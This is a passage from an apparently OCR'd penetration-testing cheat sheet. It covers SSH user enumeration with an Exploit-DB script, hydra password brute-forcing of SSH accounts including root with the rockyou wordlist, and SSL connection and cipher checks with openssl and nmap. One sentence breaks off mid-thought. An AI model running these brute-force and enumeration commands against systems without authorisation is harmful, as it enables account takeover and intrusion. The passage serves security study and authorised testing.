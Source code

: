 ```
python /usr/share/exploitdb/exploits/linux/remote/40136.py -U /usr/share/wordlists/metasploit/unix_users.txt $ip
```

If you see the following message, it likely means that scp

```
PTY allocation request failed on channel 0
```



**Bruteforce**

```
hydra -v -V -l root -P password-file.txt $ip ssh
```



**With list of users:**

```
hydra -v -V -L user.txt -P /usr/share/wordlists/rockyou.txt -t 16 192.168.33.251 ssh
```

* You can use **-w** to slow down

### &#x20;<a href="#ssl" id="ssl"></a>

### SSL <a href="#ssl" id="ssl"></a>



**Open a connection**

```
openssl s_client -connect $ip:443
```



**Basic SSL ciphers check**

```
nmap --script ssl-enum-ciphers -p 443 $ip
```

* Look for unsafe ciphers such as Triple-DES and Blowfish
* Very complete tool for SSL auditing is testssl.sh, finds BEAST, FREAK, POODLE, heart bleed, etc...

### &#x20;<a href="#snmp" id="snmp"></a>

### SNMP <a href="#snmp" id="snmp"></a>

#### &#x20;<a href="#enumeration" id="enumeration"></a>

#### Enumeration <a href="#enumeration" id="enumeration"></a>

